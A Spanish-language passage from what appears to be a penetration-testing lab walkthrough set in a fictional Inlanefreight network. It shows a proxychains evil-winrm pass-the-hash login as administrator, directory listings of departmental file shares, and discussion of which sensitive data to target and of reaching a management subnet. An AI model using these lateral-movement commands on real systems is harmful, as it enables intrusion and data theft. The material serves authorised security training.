 ```r
proxychains evil-winrm -i 172.16.8.3 -u administrator -H fd1f7e556xxxxxxxxxxxddbb6e6afa2

ProxyChains-3.1 (http://proxychains.sf.net)

<SNIP>

Evil-WinRM* PS C:\Users\Administrator\desktop> cd c:\

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK

*Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/1/2022  11:34 AM                Department Shares
d-----        9/15/2018  12:12 AM                PerfLogs
d-r---       12/14/2020   6:43 PM                Program Files
d-----        9/15/2018  12:21 AM                Program Files (x86)
d-r---         6/1/2022  11:07 AM                Users
d-----         6/1/2022  11:10 AM                Windows
```

Regresemos al **share** `Department Shares` y veamos qué más podemos encontrar.

```r
*Evil-WinRM* PS C:\Department Shares> dir

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK


    Directory: C:\Department Shares


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/1/2022  11:34 AM                Accounting
d-----         6/1/2022  11:34 AM                Executives
d-----         6/1/2022  11:34 AM                Finance
d-----         6/1/2022  11:33 AM                HR
d-----         6/1/2022  11:33 AM                IT
d-----         6/1/2022  11:33 AM                Marketing
d-----         6/1/2022  11:33 AM                R&D
```

Dependiendo de la industria y el negocio del cliente, hay varias cosas a las que podemos apuntar para demostrar impacto. Los datos de **HR** como salarios y bonificaciones deberían estar bien protegidos, la información de I+D podría potencialmente dañar a una empresa si se filtra, por lo que deberían tener controles adicionales en su lugar. Puede ser una buena práctica no permitir que los **Domain Admins** tengan acceso total a todos los datos, porque si una cuenta es comprometida, entonces todo estará comprometido. Algunas empresas tendrán un sitio separado o un **file share** no unido al **domain** o un servidor de respaldo para alojar datos sensibles. En nuestro caso, Inlanefreight nos ha pedido que probemos si podemos ganar acceso a cualquier host en la subred `172.16.9.0/23`. Esta es su red de gestión y alberga servidores sensibles que no deberían ser accesibles directamente desde hosts en el **domain** principal y ganar derechos de **Domain Admin** no debería conducir a un acceso inmediato.
